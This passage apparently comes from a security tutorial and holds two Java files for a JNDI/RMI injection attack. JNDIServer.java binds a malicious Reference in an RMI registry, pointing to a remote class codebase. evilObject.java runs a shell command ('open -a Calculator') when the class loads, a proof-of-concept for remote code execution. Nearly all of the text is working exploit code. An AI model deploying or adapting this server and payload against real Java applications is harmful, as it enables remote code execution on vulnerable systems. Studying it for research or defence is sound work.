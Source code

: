 ```java
```

 - JNDIServer.java

```java
package org.h3rmesk1t.jndi.RMIAttack;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 6:09 上午
 */
public class JNDIServer {

    public static void main(String[] args) throws Exception {

        String className = "evilObject";
        String factoryName = "evilObject";
        String factoryLocationURL = "http://127.0.0.1:4444/";

        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference(className, factoryName, factoryLocationURL);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        System.out.println("Binding 'referenceWrapper' to 'rmi://127.0.0.1:1099/reference'");
        registry.bind("reference", referenceWrapper);
    }
}
```

 - evilObject.java

```java
import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/5 11:17 上午
 */
public class evilObject {

    public evilObject() {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
